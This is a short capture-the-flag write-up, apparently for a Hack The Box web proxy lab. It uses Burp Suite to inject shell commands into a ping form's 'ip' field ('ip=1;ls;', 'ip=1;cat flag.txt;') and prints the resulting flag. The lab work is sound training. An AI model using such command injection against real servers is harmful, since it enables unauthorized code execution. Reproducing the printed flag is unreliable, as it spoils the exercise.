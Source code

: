 ## Challenge
Try intercepting the ping request on the server shown above, and change the post data similarly to what we did in this section. Change the command to read 'flag.txt'

## Solution
I open the built-in browser in Burp and visit the page.

I just write the number 1, in the address to ping, and check the history on burp.

I send the request to the Burp Repeater, and I see the body is `ip=1`

I modify that to `ip=1;ls;` and I got the following result:

```sh
flag.txt
index.html
node_modules
package-lock.json
public
server.js
```

Now I modify the body to `ip=1;cat flag.txt;` and the flag is `HTB{1n73rc3p73d_1n_7h3_m1ddl3}`.

